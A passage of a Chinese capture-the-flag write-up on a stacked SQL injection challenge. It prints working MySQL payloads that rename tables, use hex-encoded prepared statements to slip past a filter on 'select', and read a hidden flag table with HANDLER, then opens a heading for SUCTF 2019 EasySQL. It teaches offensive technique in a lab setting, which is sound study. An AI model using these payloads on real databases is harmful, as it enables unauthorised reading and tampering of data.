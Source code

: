 1. 通过` rename `先把`words` 表改名为其他的表名。
2. 把`1919810931114514`表的名字改为`words`
3. 给`words`表添加新的列名`id`
4. 将`flag`字段名改为与`words`中相同的列名`data`

然后就可以通过查询`id`得方法查出来`flag`字段的内容了

```mysql
1';rename table words to word1;rename table `1919810931114514` to words;alter table words add id int not NULL auto_increment primary key;alter table words change flag data varchar(100);%23
```

提交`payload`后，再查询`id`为`1`的数据，就可以查到`flag`

![](./img/4-8.png)

### 方法二 预处理语句配合十六进制编码

因为`select`被过滤了

```
所以先将select * from `1919810931114514`进行16进制编码
```

再构造预处理语句

```mysql
;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
# 因上述方法更改了flag表，所以真实的flag在words表中，所以重新编码
0';Set@a=0x73656c656374202a2066726f6d2060776f72647360;prepare execsql from @a;execute execsql;%23
```

### 方法三

```mysql
1'; handler `1919810931114514` open as `a`; handler `a` read next;#
```

## [SUCTF 2019]EasySQL

`堆叠注入`

`sql_mode管道符`

